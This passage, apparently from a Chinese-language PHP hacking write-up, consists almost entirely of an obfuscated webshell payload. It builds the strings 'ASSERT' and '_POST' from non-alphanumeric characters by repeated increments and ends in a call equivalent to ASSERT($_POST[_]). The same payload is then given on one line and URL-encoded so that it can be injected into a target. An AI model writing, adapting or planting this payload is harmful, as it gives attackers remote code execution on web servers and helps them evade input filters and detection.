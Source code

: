 ```php
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```

放到一排再url编码之后是：

```php
%24_%3D%5B%5D%3B%24_%3D%40%22%24_%22%3B%24_%3D%24_%5B'!'%3D%3D'%40'%5D%3B%24___%3D%24_%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24____%3D'_'%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24_%3D%24%24____%3B%24___(%24_%5B_%5D)%3B
```
